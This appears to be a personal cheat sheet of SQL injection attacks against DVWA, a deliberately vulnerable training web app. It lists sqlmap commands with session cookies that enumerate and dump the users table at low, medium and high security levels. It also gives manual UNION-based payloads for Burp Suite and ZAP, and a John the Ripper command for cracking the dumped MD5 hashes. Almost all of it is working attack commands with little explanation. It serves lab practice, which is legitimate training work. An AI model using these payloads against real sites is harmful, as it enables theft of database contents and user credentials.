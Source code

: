 **Damn Vulnerable Web Application (DVWA) SQL injection using sqlmap**

**SQL Injection DVWA-Low:** //
$ sqlmap -u "http://192.168.0.109/dvwa/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=8566j3a1sso9lilhudv6ht9pqn; security=low" --dbs
$ sqlmap -u "http://192.168.0.109/dvwa/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=8566j3a1sso9lilhudv6ht9pqn; security=low" -D dvwa -tables
$ sqlmap -u "http://192.168.0.109/dvwa/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=8566j3a1sso9lilhudv6ht9pqn; security=low" -D dvwa -T users -columns
$ sqlmap -u "http://192.168.0.109/dvwa/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=8566j3a1sso9lilhudv6ht9pqn; security=low" -D dvwa -T users -dump 

**SQL Injection DVWA-Medium:**
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/#" --cookie="PHPSESSID=7632vnk8e7ufep6a0t3f2quugb; security=medium" --data="id=3&Submit=Submit" --dbs
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/#" --cookie="PHPSESSID=7632vnk8e7ufep6a0t3f2quugb; security=medium" --data="id=3&Submit=Submit" -D dvwa -tables
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/#" --cookie="PHPSESSID=7632vnk8e7ufep6a0t3f2quugb; security=medium" --data="id=3&Submit=Submit" -D dvwa -T users --dump
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/#" --cookie="PHPSESSID=7632vnk8e7ufep6a0t3f2quugb; security=medium" --data="id=3&Submit=Submit" -D dvwa -T users --column


**SQL Injection DVWA-High**
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/session-input.php" --cookie="PHPSESSID=sv0m9s1dv0kp23lv9ajjtsbrfn; security=high" --data="id=3&Submit=Submit" --second-url http://192.168.100.8/dvwa/vulnerabilities/sqli/ --dbs
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/session-input.php" --cookie="PHPSESSID=sv0m9s1dv0kp23lv9ajjtsbrfn; security=high" --data="id=3&Submit=Submit" --second-url http://192.168.100.8/dvwa/vulnerabilities/sqli/ -D dvwa -tables  
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/session-input.php" --cookie="PHPSESSID=sv0m9s1dv0kp23lv9ajjtsbrfn; security=high" --data="id=3&Submit=Submit" --second-url http://192.168.100.8/dvwa/vulnerabilities/sqli/ -D dvwa -tables --dump 

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
**DVWA SQL Injection (Manual, Zaproxy & Burpsuite)**

DVWA Low: 
1' ORDER BY 2-- #
1' ORDER BY 2 #
1' OR 1=1 UNION SELECT 1, VERSION()#
1' OR 1=1 UNION SELECT 1, VERSION()#
1' OR 1=1 UNION SELECT 1,DATABASE() #
1' OR 1=1 UNION SELECT 1,table_name FROM  information_schema.tables WHERE table_type='base table' AND table_schema='dvwa' #
1' OR 1=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users' #
1' OR 1=1 UNION SELECT user, password FROM users #      
           
           
          
DVWA (Low):           
%' or '0'='0
%' or 0=0 union select null, version() #    //Displaying version
%' or 0=0 union select null, user() #
%' or 0=0 union select null, database() #
%' and 1=0 union select null, table_name from information_schema.tables #
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'users%'#
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' # // Add two strings together
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
$ john -format:raw-MD5 database\ user\ password.txt


DVWA SQL Injection (Medium) using zaproxy:
Inserting folling query in "zaproxy manual request editor"

id=2 or 0=0 union select null, version() &Submit=Submit
id=2 or 0=0 union select null, database() &Submit=Submit
id=2 union select null, table_name from information_schema.tables &Submit=Submit
id=2 UNION SELECT user, password FROM users &Submit=Submit

DVWA SQL Injection (Medium) using burpsuite:
After capturing the packet send it to repeater
id=1 or 1=1#&Submit=Submit
id=2 or 0=0 union select null, user() #&Submit=Submit
id=2 or 1=0 union select null, table_name from information_schema.tables #&Submit=Submit
id=2 or 1=1 union select 1,column_name from information_schema.columns# &Submit=Submit
id=2 or 1=0 union select 1,group_concat(user,password) from users#  &Submit=Submit
id=2 UNION SELECT user, password FROM users # &Submit=Submit


DVWA SQL Injection (High) manually:
1' OR 1=1 UNION SELECT user, password FROM users#
1' OR 1=1 UNION SELECT password, @@hostname FROM users#
1' union select 1,column_name from information_schema.columns where table_name="users"#
1' union select user,password from users#


